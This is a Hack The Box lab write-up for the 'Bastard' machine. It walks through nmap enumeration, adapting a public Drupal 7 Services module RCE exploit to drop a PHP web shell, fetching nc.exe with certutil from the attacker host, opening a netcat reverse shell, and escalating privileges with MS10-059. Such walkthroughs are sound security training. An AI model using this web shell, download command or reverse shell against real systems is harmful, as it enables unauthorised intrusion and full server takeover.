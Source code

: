 ```yaml
---
layout: single
title: "Bastard"
categories: htb
classes: wide
---
```


## Enumeration

First we do the nmap scan:
```bash
nmap -v -sV -sC -T5 -oN nmap.txt 10.10.10.9
......
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

We see 3 ports are open. Only interesting port is 80 which is running drupal cms. 

We need to find the cms correct and exact version to search for known vulnerability. Let's go to ```10.10.10.9/CHANGELOG.txt``` and we see something like:
```
Drupal 7.54, 2017-02-01
```


## Searching For Vulnerablity
I used searchsploit command in kali to search the vulnerability:
![Bastard Vulnerability](bastard1.png)

The working exploit is:
```bash
exploits/php/webapps/41564.php
```
I simply edited two lines of this exploit:
```php
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
to

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
But the exploit failed!

I was not that familiar with this vulnerability. Found another article about this vulnerability is <https://www.ambionics.io/blog/drupal-services-module-rce>. I did some more Google search, and found i need to make another post request before working this exploit:

```html
POST /rest HTTP/1.1
Host: 10.10.10.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.9/
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
```
After this request with burp suite, the server replied:
```html
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Type: text/html
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Powered-By: ASP.NET
Date: Sat, 09 May 2020 18:39:15 GMT
Connection: close
Content-Length: 62

Services Endpoint "rest_endpoint" has been setup successfully.
```

## Working Exploit
I had to fix some lines in the exploit and modify the ```$endpoint_path```
Exploit final modification was(For some troublshooting i used burpsuite here):

```php
$url = 'http://127.0.0.1:8081';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'backdoor.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
];
```

And 
```bash
root@kali:/opt/htb1/basterd# php *.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://127.0.0.1:8081/backdoor.php
```

### Reverse Shell

I have uploaded nc.exe and :
```bat
http://10.10.10.9/backdoor.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe nc.exe
http://10.10.10.9/backdoor.php?cmd=nc -e cmd.exe ip port
```

I quickly got shell in my kali machine. I save the output of ```systeminfo``` command and use [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) python script:
```bash
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --systeminfo sysfo.txt -d *.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
I exploit [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri) for privilege escalation as follows:

![Escalation!](root.png)